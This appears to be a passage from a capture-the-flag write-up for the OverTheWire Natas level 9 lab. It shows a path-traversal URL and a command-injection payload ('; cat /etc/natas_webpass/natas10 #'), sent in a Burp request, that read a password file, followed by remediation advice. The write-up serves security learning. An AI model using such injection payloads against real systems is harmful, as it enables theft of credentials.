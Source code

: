 
## **Solution and Exploitation**

The password for **Natas Level 10** was successfully retrieved using **both methods**:

1. **Directory Browsing:**  
   Accessed: `http://natas9.natas.labs.overthewire.org/../../../../etc/natas_webpass/natas10`

2. **Command Injection:**  
   Payload: `; cat /etc/natas_webpass/natas10 #`  
   → Response contained the password in plaintext.

> **Extracted Artifact:** Password for Level 10 (redacted for this report).

---

## **Burp Suite Request (Command Injection)**

```http
POST /index.php HTTP/1.1
Host: natas9.natas.labs.overthewire.org
Authorization: Basic bmF0YXM5OnBhc3N3b3Jk
Content-Type: application/x-www-form-urlencoded
Content-Length: 41

key=; cat /etc/natas_webpass/natas10 #
```

**Response (truncated):**
```html
<pre>
[password redacted]
</pre>
```

---

## **Learnings and Recommendations**

### **Key Learnings**
- **Directory Browsing:** Even without code execution, enabled listings can leak sensitive files.
- **Command Injection:** Never pass unsanitized user input to system commands.
- **Defense in Depth:** Multiple weak controls compound risk.

### **Recommendations**

| **Timeline** | **Action** |
|--------------|-----------|
| **Short-Term** | Disable directory browsing (`Options -Indexes` in Apache). |
| | Sanitize input using allowlists and escape shell commands. |
| **Long-Term** | 
- Adopt OWASP Input Validation Cheat Sheet.
- Use `escapeshellarg()` or `escapeshellcmd()` in PHP.
- Place web root outside sensitive directories.
- Integrate SAST/DAST tools in CI/CD.
